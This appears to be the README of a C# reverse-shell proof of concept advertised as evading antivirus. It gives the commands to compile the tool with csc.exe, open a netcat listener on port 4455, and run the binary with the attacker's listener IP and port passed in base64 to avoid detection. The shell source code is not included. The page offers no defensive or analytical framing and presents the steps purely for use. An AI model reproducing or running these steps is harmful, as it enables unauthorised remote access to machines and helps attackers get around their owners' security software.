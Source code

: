 # C# Reverse Shell AV Evasion POC
##Compile:
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe shell.cs

##Start the listener:
nc -nvlp 4455

##Execute the binary:
shell.exe MTkyLjE2OC41LjU= NDQ1NQ==

Base64 encoded listener IP – 192.168.5.5
Base64 encode listening port – 4455
